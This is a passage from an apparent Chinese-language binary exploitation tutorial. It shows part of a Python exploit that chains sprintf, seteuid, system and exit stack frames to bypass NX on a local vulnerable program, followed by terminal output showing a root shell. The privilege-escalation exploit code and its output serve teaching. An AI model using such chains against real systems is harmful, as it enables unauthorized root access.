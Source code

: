 ```py
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3)
#Dummy - To avoid null byte in fake_ebp4. 
buf += "X" * 4 
#Below stack frame is for seteuid
buf += conv(fake_ebp5) 
buf += conv(seteuid_addr) 
buf += conv(leave_ret) 
#Dummy - This arg is zero'd by above four sprintf calls
buf += "Y" * 4 
#Below stack frame is for system
buf += conv(fake_ebp6) 
buf += conv(system_addr) 
buf += conv(leave_ret) 
buf += conv(system_arg) 
#Below stack frame is for exit
buf += conv(fake_ebp7) 
buf += conv(exit_addr) 
buf += conv(leave_ret) 
buf += conv(exit_arg) 

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上述漏洞代码给我们root shell！

```
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����������������\��������������\��������������\�������������\��� �������AAAA0�������Ѕ
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

现在完全绕过了NX 位，让我们看看如何在下一篇文章中绕过ASLR。

